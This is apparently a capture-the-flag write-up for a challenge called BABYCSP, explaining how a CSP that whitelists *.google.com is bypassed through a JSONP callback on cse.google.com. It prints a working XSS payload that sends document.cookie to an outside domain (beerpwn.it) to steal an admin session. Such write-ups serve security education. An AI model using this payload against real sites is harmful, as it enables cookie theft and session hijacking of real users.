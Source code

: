 # WRITEUP BABYCSP

## Author: p4w @beerpwn team

![Image desc](./description.png)

As the descrption/title say we will probably need to bypass CSP to trigger some XSS in order to steal the admin cookies.
Sufing to the index page we have this:

![Image desc](./index.png)

The input that we can pass is totally NOT filtered and safe from XSS.

## Understanding the CSP
The ```script-src 'self' *.google.com``` directive permit to use scripts that are coming from *.google.com, and also from the same domain.
The ```connect-src *``` directive restricts the URLs which can be loaded using script interfaces. Then in this case every URL are allowed.

## Bypassing the CSP
This is what I was thinking during the CTF:
since we can't control directily any file contents from the same domain, then we can try to 'host' some XSS payload on google subdomain. At the beginning I tried to use googleDrive to host some XSS-file but i had no lucky with that and I dind't manage to serve the raw file from google subdomains. So the second idea that comes in my mind was to use JSONP callback. More info about JSONP <a href="https://www.w3schools.com/js/js_json_jsonp.asp">here</a>. So after a bit of googling I found <a href='https://github.com/zigoo0/JSONBee'>this</a> page. So I used this ```https://cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=alert()``` endpoint for JSONP callback.

![Image index](./alert_jsonp.png)

## Fire the XSS
Now with this payload
`<script src='//cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=alert()'></script>`
we will be able to pop up an alert bypassing the CSP.
The only problem that I had to solve now is that some character are not usable with this JSON endpoint as we can see here:
![Image index](./banned_char_enum.png)
This `? / ,` and probably more others are not allowed to construct the callback function.
So I comed up with this payload to avoid the bad char:
<code>
<script src='//cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=location.replace(String.fromCharCode(47).concat(String.fromCharCode(47).concat("beerpwn.it").concat(String.fromCharCode(47).concat(document.cookie))))'></script>
</code>

With this payload we can grab the admin-cookie and get the flag:

![Image index](./server_log.png)

flag: flag{csp_will_solve_EVERYTHING}
